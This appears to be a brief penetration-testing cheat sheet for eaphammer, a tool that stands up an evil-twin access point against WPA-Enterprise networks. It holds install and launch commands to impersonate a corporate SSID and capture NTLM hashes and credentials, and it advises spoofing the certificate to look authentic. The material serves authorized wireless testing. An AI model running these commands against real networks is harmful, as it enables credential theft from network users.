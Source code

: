 GitHub: https://github.com/s0lst1c3/eaphammer

------

- Allows you to attack enterprise networks and capture WPE NTLM hashes
- Evil twin but for WPE and is very useful since Radius is used we can capture NTLM hashes

To Install:

```ruby
git clone https://github.com/s0lst1c3/eaphammer.git
./kali-setup
```

To setup and launch attack:

```ruby
# generate certificates
./eaphammer --cert-wizard

# launch attack
./eaphammer -i wlan0 --channel 4 --auth wpa-eap --essid CorpWifi --creds
```

Pretty straight forward. Certificate has to be modified to be more authentic and look as close as possible to the enterprise.

Some general WPA-Enterprise Resources:

- https://pwn.no0.be/exploitation/wifi/wpa_enterprise/
- https://ppn.snovvcrash.rocks/pentest/wi-fi/wpa-wpa2/enterprise
- https://adam-toscher.medium.com/top-5-ways-i-gained-access-to-your-corporate-wireless-network-lo0tbo0ty-karma-edition-f72e7995aef2
- https://xploitlab.com/eaphammer-targeted-evil-twin-attacks-against-wpa2-enterprise-networks/